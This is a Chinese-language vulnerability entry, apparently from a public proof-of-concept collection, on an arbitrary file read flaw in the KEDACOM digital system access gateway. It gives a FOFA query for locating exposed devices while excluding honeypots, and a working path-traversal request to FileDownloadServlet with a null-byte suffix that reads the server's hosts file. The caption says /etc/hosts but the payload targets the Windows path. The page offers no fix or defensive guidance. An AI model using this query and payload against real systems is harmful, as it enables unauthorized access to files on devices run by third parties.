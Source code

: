 # KEDACOM 数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

> [!NOTE]
>
> KEDACOM 数字系统接入网关

## FOFA

> [!NOTE]
>
> (app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ked-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用POC读取 /etc/hosts

```
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](http://wikioss.peiqi.tech/vuln/ked-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)